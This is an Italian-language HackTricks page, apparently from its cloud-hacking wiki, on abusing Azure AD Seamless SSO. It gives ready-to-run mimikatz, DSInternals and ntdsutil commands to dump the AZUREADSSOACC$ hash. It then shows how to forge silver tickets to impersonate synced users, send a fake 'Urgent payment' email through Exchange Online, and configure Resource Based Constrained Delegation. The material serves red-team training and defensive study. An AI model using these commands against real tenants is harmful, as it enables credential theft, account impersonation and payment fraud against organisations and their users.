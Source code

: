 # Az - Seamless SSO

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository github.

</details>
{% endhint %}

## Informazioni di base

[Dai documenti:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) accede automaticamente **gli utenti quando sono sui loro dispositivi aziendali** connessi alla rete aziendale. Quando abilitato, **gli utenti non hanno bisogno di digitare le loro password per accedere ad Azure AD**, e di solito, nemmeno di digitare i loro nomi utente. Questa funzionalità fornisce agli utenti un facile accesso alle applicazioni basate su cloud senza necessitare di componenti aggiuntivi on-premises.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption></figcaption></figure>

Fondamentalmente Azure AD Seamless SSO **accede gli utenti** quando sono **su un PC unito al dominio on-prem**.

È supportato sia da [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) che da [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md).

Desktop SSO utilizza **Kerberos** per l'autenticazione. Quando configurato, Azure AD Connect crea un **account computer chiamato AZUREADSSOACC`$`** in AD on-prem. La password dell'account `AZUREADSSOACC$` è **inviata in testo chiaro ad Azure AD** durante la configurazione.

I **biglietti Kerberos** sono **crittografati** utilizzando l'**NTHash (MD4)** della password e Azure AD utilizza la password inviata per decrittografare i biglietti.

**Azure AD** espone un **endpoint** (https://autologon.microsoftazuread-sso.com) che accetta i **biglietti Kerberos**. Il browser della macchina unita al dominio inoltra i biglietti a questo endpoint per SSO.

### On-prem -> cloud

La **password** dell'utente **`AZUREADSSOACC$` non cambia mai**. Pertanto, un amministratore di dominio potrebbe compromettere l'**hash di questo account**, e poi usarlo per **creare biglietti d'argento** per connettersi ad Azure con **qualsiasi utente on-prem sincronizzato**:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Con l'hash ora puoi **generare silver tickets**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Per utilizzare il silver ticket, devono essere eseguiti i seguenti passaggi:

1. **Avviare il Browser:** Mozilla Firefox deve essere lanciato.
2. **Configurare il Browser:**
* Navigare a **`about:config`**.
* Impostare la preferenza per [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) ai [valori](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) specificati:
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **Accedere all'Applicazione Web:**
* Visitare un'applicazione web integrata con il dominio AAD dell'organizzazione. Un esempio comune è [Office 365](https://portal.office.com/).
4. **Processo di Autenticazione:**
* Nella schermata di accesso, inserire il nome utente, lasciando il campo della password vuoto.
* Per procedere, premere TAB o INVIO.

{% hint style="success" %}
Questo non bypassa MFA se abilitato
{% endhint %}

#### ~~Creazione di ticket Kerberos per utenti solo cloud~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Se gli amministratori di Active Directory hanno accesso a Azure AD Connect, possono **impostare SID per qualsiasi utente cloud**. In questo modo i **ticket Kerberos** possono essere **creati anche per utenti solo cloud**. L'unico requisito è che il SID sia un [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) corretto.

{% hint style="danger" %}
Cambiare SID degli utenti admin solo cloud è ora **bloccato da Microsoft**.\
Per info controllare [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### On-prem -> Cloud via Resource Based Constrained Delegation <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Chiunque possa gestire account di computer (`AZUREADSSOACC$`) nel contenitore o OU in cui si trova questo account, può **configurare una delega vincolata basata su risorse sull'account e accedervi**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## Riferimenti

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: I'm in your cloud, reading everyone's emails - hacking Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository github.

</details>
{% endhint %}
